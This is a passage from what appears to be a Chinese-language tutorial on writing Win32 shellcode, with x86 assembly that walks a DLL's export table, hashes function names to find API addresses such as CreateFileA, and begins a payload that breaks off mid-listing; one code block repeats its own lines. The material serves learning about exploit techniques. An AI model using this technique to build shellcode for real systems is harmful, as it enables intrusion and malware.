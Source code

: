 ### 寻找对应的函数
```
    inc edi                     ; increment function counter 
    mov esi, [ebx + edi * 4]    ; esi = relative offset of current function name 
    add esi, ebp                ; esi = absolute addr of current function name 
    cdq                         ; dl will hold hash (we know eax is small)
    inc edi                     ; increment function counter 
    mov esi, [ebx + edi * 4]    ; esi = relative offset of current function name 
    add esi, ebp                ; esi = absolute addr of current function name 
    cdq                         ; dl will hold hash (we know eax is small)  
```
大家可能不理解hash是干啥的，由于我们win32程序使用的寄存器都是32位的，而我们要读取的函数的名称长度不一，所以我们使用哈希的方法来将长的函数名变成一个等长度的串，以便于cmp。
```
    movsx eax, byte ptr[esi]
    cmp al,ah
    jz compare_hash
    ror edx,7
    add edx,eax
    inc esi
    jmp hash_loop
```
而比较hash的函数如下，如果我们没找到的话就再拿下一个函数，让他hash然后再比较，如果找到了的话就去对应的IAT找他的绝对地址，并且将他push到edi栈的位置
```
    cmp edx, [esp + 0x1c]       ; compare to the requested hash (saved on stack from pushad) 
    jnz next_function_loop 
    mov ebx, [ecx + 0x24]       ; ebx = relative offset of ordinals table 
    add ebx, ebp                ; ebx = absolute addr of ordinals table 
    mov di, [ebx + 2 * edi]     ; di = ordinal number of matched function 
    mov ebx, [ecx + 0x1c]       ; ebx = relative offset of address table 
    add ebx, ebp                ; ebx = absolute addr of address table 
    add ebp, [ebx + 4 * edi]    ; add to ebp (base addr of module) the 
                                ; relative offset of matched function 
    xchg eax, ebp               ; move func addr into eax 
    pop edi                     ; edi is last onto stack in pushad 
    stosd                       ; write function addr to [edi] and increment edi 
    push edi 
    popad                   ; restore registers 
                            ; loop until we reach end of last hash 
    cmp eax,0x1e380a6a
    jne find_lib_functions 
```
直到找完最后一个要找的函数的hash为止。

然后再最后用edi-几来调用对应的函数。
总体代码如下
```
int main()
{
    _asm{
        nop;
        CLD;
        push 0x94e43293                     ;hash of CreateFileA
        push 0x4fd18963                     ;hash of ExitProcess
        mov esi, esp
        lea edi, [esi-0x0c]
            

        xor ebx, ebx
        mov bh, 0x04
        sub esp, ebx

        mov bx,0x3233
        push ebx
        push 0x72657375
        push esp
```